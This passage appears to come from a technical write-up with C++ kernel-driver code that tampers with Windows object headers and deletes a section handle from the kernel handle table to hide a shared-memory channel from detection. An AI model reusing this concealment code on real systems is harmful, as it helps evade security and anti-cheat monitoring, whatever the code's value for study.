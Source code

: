 ```cpp

    if (!MmIsAddressValid(objectHeader))
    {
        return STATUS_UNSUCCESSFUL;
    }

    memcpy(&origObjectHeader, objectHeader, sizeof(_OBJECT_HEADER));

    objectHeader->PermanentObject = 1;
    objectHeader->TypeIndex = headerCookie ^ symbolLinkType->Index ^ ((reinterpret_cast<ULONG64>(objectHeader) >> 8) & 0xFF);
    objectHeader->HandleCount = 0;
    objectHeader->NextToFree = nullptr;

    //++symbolLinkType.TotalNumberOfObjects
    //++symbolLinkType.TotalNumberOfHandles

    auto const symbolicLink = OBJECT_HEADER_TO_OBJECT(objectHeader, _OBJECT_SYMBOLIC_LINK)

    RtlInitUnicodeString(&symbolicLink->LinkTarget, L"\\BaseNamedObject");

    return STATUS_SUCCESS;
}
```

### 1.2 Removing the handle from the kernel space handle array
To avoid detection of an open handle from the system process (PID=4), we simply need to remove the pointer from the kernel handle array `ObpKernelHandleTable`. Also, a pointer to this table can be obtained from `EPROCESS::ObjectTable`. One more point worth highlighting — something I spent quite some time figuring out — is how kernel handles work. For a long time, I didn't understand why I couldn't get `handleTableEntry` using my handle, and while examining how `ObpKernelHandleTable` works, I noticed that `expLookupHandleTableEntry` only works with kernel handles...

```cpp
NTSTATUS CommSharedMemoryHider::removeHandleFromObject()
{
    auto const ctx = getMemory()->getContext();
    auto const handle = reinterpret_cast<ULONG64>(ctx->sectionHandle) ^ 0xFFFFFFFF80000000uLL;
    auto const krnlHandleTable = *symbols->get<_HANDLE_TABLE*, &NT_OFFSETS::gObpKernelHandleTable>(getNtoskrnlBase());
    auto const sectionObjectType = *symbols->get<_OBJECT_TYPE*, &NT_OFFSETS::gMmSectionObjectType>(getNtoskrnlBase());

    if (!MmIsAddressValid(krnlHandleTable))
    {
        return STATUS_UNSUCCESSFUL;
    }

    origHandleTableEntry = reinterpret_cast<PULONG64>(
        expLookupHandleTableEntry(
            reinterpret_cast<unsigned int*>(krnlHandleTable),
            handle
        )
        );

    if (!MmIsAddressValid(origHandleTableEntry))
    {
        return STATUS_UNSUCCESSFUL;
    }

    origHandleEntry = *origHandleTableEntry;
    *origHandleTableEntry = NULL;
```